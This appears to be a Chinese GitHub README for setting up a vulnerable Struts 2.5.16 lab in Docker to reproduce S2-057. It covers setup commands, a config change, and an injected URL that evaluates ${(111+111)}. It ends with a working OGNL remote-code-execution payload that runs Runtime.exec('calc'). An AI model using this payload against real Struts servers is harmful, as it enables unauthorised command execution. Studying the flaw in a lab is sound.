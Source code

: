 # St2-057 在线靶机环境，Enjoy！


# 0x01 搭建环境docker

https://github.com/vulhub/vulhub/tree/master/struts2/s2-048

```
docker-compose up -d
```

# 0x02 搭建st2-057漏洞环境

```
docker exec -i -t 88fd8d560155 /bin/bash
```
后台启动进入docker
![](./docker-struts-048.jpg)

根据公告
https://struts.apache.org/releases.html

```
Release	Release Date	Vulnerability	Version Notes
Struts 2.5.16	16 March 2018	S2-057	Version notes
Struts 2.5.14.1	30 November 2017	Version notes
Struts 2.5.14	23 November 2017	S2-055, S2-054	Version notes
```
![](./in-st2-57.jpg)
Struts 2.5.16存在s2-057漏洞，然后去下载这个版本

https://fossies.org/linux/www/legacy/struts-2.5.16-all.zip/

```

apt-get update -y
mkdir /usr/local/tomcat/webapps/test
wget https://fossies.org/linux/www/legacy/struts-2.5.16-all.zip
apt-get install unzip -y
cp struts2-showcase.war /usr/local/tomcat/webapps/

```
![](./wget-st2-057.jpg)

# 0x03 修改配置文件

先查找文件struts-actionchaining.xml，发现有2处需要修改
```
root@88fd8d560155:/usr/local/tomcat/webapps/test# locate struts-actionchaining.xml
/usr/local/tomcat/webapps/struts2-showcase/WEB-INF/classes/struts-actionchaining.xml
/usr/local/tomcat/webapps/struts2-showcase/WEB-INF/src/java/struts-actionchaining.xml
/usr/local/tomcat/webapps/test/struts-2.5.16/src/apps/showcase/src/main/resources/struts-actionchaining.xml
root@88fd8d560155:/usr/local/tomcat/webapps/test# 

```
配置文件修改-参考链接：
https://lgtm.com/blog/apache_struts_CVE-2018-11776

改为如下所示：

```
<struts>
    <package name="actionchaining" extends="struts-default">
        <action name="actionChain1" class="org.apache.struts2.showcase.actionchaining.ActionChain1">
           <result type="redirectAction">
             <param name = "actionName">register2</param>
           </result>
        </action>
    </package>
</struts>
```
![](./struts-actionchaining.jpg)

然后去bin目录，kill掉进程,因为修改了配置文件，所以需要重启服务
```
root@88fd8d560155:/usr/local/tomcat/bin# cd /usr/local/tomcat/bin/
root@88fd8d560155:/usr/local/tomcat/bin# ls
bootstrap.jar	    catalina.sh			  commons-daemon.jar  daemon.sh  setclasspath.sh  startup.sh	   tool-wrapper.sh
catalina-tasks.xml  commons-daemon-native.tar.gz  configtest.sh       digest.sh  shutdown.sh	  tomcat-juli.jar  version.sh
root@88fd8d560155:/usr/local/tomcat/bin# ./shutdown.sh 

```
![](./down.jpg)

# 0x04 重启服务，st2-057搭建完成
```
 ✘ ⚡ root@HK  ~/vulhub/struts2/s2-048   master ●  docker-compose up -d
Starting s2-048_struts2_1 ... done
 ⚡ root@HK  ~/vulhub/struts2/s2-048   master ●  
```
![](./start.jpg)
# 0x05  验证st2-057
docker 靶机：http://www.canyouseeme.cc:8080/struts2-showcase/

命令执行：http://www.canyouseeme.cc:8080/struts2-showcase/${(111+111)}/actionChain1.action

${(111+111)}

得到执行结果返回在url中：http://www.canyouseeme.cc:8080/struts2-showcase/222/register2.action

![](./st2-57.jpg)

#### Ps: ${(111+111)} 可以替换成以前的poc，例如S2-032

![](./calc.jpg)

```
${(#_memberAccess["allowStaticMethodAccess"]=true,#a=@java.lang.Runtime@getRuntime().exec('calc').getInputStream(),#b=new java.io.InputStreamReader(#a),#c=new  java.io.BufferedReader(#b),#d=new char[51020],#c.read(#d),#jas502n= @org.apache.struts2.ServletActionContext@getResponse().getWriter(),#jas502n.println(#d ),#jas502n.close())}
```
# 0x06 参考链接

```
https://github.com/vulhub/vulhub/tree/master/struts2/s2-048
https://lgtm.com/blog/apache_struts_CVE-2018-11776
https://cwiki.apache.org/confluence/display/WW/S2-057
https://www.anquanke.com/post/id/157518
```
